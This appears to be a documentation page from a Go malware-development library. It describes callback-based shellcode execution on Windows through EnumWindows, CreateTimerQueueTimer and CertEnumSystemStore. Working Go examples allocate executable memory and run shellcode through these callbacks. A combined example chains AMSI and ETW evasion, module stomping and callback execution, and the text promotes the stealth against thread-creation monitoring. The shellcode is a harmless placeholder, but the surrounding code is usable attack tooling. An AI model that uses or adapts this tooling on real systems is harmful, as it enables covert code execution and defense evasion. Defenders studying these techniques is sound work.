

# Callback-Based Execution

> **MITRE ATT&CK:** T1055.001 -- Process Injection: DLL Injection | **D3FEND:** D3-PSA -- Process Spawn Analysis | **Detection:** Low-Medium

## For Beginners

Instead of hiring a new worker to carry out your task, you find an existing worker who already checks a to-do list as part of their normal job. You slip your task into that to-do list, and the existing worker picks it up without anyone noticing that a new employee showed up.

Many Windows APIs accept "callback" function pointers -- addresses that Windows will call on your behalf as part of a normal operation. For example, `EnumWindows` calls a function for every window on the desktop, `CreateTimerQueueTimer` calls a function after a delay, and `CertEnumSystemStore` calls a function for every certificate store. If you point these callbacks at your shellcode instead of a legitimate function, Windows itself executes your code.

The critical advantage is zero thread creation. No `CreateThread`, no `CreateRemoteThread`, no `NtCreateThreadEx`. Security products that monitor thread creation events see nothing. The shellcode runs inside an existing API call on an existing thread. This makes callback execution one of the stealthiest local execution methods available.

## How It Works



**Three callback methods:**

1. **EnumWindows** -- The OS calls `shellcode(hwnd, lParam)` for each top-level window. Shellcode executes in the calling thread. Returns 0 to stop enumeration.
2. **CreateTimerQueueTimer** -- A timer fires immediately (DueTime=0) with `WT_EXECUTEINTIMERTHREAD`, calling the shellcode in the timer thread. Semi-synchronous execution.
3. **CertEnumSystemStore** -- The certificate subsystem calls the shellcode for each system store (CurrentUser). Runs in the calling thread.

All three methods require that the shellcode is already in executable memory. Pair with `ModuleStomp` or manual `VirtualAlloc` + `VirtualProtect`.

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/inject"
    "golang.org/x/sys/windows"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // Allocate executable memory manually.
    addr, err := windows.VirtualAlloc(0, uintptr(len(shellcode)),
        windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
    if err != nil {
        log.Fatal(err)
    }
    copy((*[1 << 20]byte)(unsafe.Pointer(addr))[:len(shellcode)], shellcode)
    var old uint32
    windows.VirtualProtect(addr, uintptr(len(shellcode)), windows.PAGE_EXECUTE_READ, &old)

    // Execute via EnumWindows callback.
    if err := inject.ExecuteCallback(addr, inject.CallbackEnumWindows); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // 1. Evasion: AMSI + ETW + selective unhook.
    evasion.ApplyAll(preset.Stealth(), nil)

    // 2. Module stomp -- shellcode in file-backed memory.
    addr, err := inject.ModuleStomp("msftedit.dll", shellcode)
    if err != nil {
        log.Fatal(err)
    }

    // 3. Execute via CertEnumSystemStore -- no thread, no suspicious APIs.
    if err := inject.ExecuteCallback(addr, inject.CallbackCertEnumSystemStore); err != nil {
        log.Fatal(err)
    }
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | High -- no thread creation API calls. Execution appears as normal API usage. |
| Thread creation | Zero. All callbacks run on existing threads. |
| Execution model | Synchronous (EnumWindows, CertEnum) or timer-thread (TimerQueue). |
| Compatibility | Excellent -- these APIs exist on all Windows versions. |
| Limitations | Local execution only -- cannot trigger a callback in a remote process. Shellcode must be in executable memory before calling. EnumWindows requires at least one top-level window to exist. |
| Forensics | ETW may log the specific API call (e.g., window enumeration). Call stack analysis shows the callback originating from user32/kernel32/crypt32. |

## Compared to Other Implementations

| Feature | maldev | Sliver | CobaltStrike | D3Ext/maldev |
|---------|--------|--------|--------------|--------------|
| EnumWindows callback | Yes | No | No | No |
| TimerQueue callback | Yes | No | No | No |
| CertEnum callback | Yes | No | No | No |
| Extensible method enum | `CallbackMethod` type | N/A | N/A | N/A |
| Pairs with ModuleStomp | Natural composition | N/A | N/A | N/A |

## API Reference

```go
// CallbackMethod identifies the callback technique.
type CallbackMethod int

const (
    CallbackEnumWindows        CallbackMethod = iota  // user32.EnumWindows
    CallbackCreateTimerQueue                           // kernel32.CreateTimerQueueTimer
    CallbackCertEnumSystemStore                        // crypt32.CertEnumSystemStore
)

// ExecuteCallback runs shellcode at addr using the specified callback.
// The caller must ensure addr points to executable memory.
func ExecuteCallback(addr uintptr, method CallbackMethod) error
```
